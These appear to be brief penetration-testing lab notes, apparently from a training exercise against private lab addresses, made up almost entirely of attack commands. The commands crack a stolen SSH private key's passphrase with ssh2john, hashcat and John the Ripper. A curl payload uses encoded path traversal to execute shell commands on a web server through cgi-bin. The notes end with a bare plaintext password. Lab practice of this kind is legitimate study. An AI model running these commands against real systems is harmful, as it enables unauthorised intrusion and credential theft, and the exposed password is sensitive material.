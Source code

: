 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Obtain private key (id_rsa)

```
chmod 600 id_rsa
```

Convert to hash:
```
ssh2john id_rsa > ssh.hash
```

Crack hash using rule file ssh.rule
```
hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
```

If that doesn't work use JtR with the rule file located at /etc/john/john.conf
```
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "192.168.221.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"
```

Superstar137!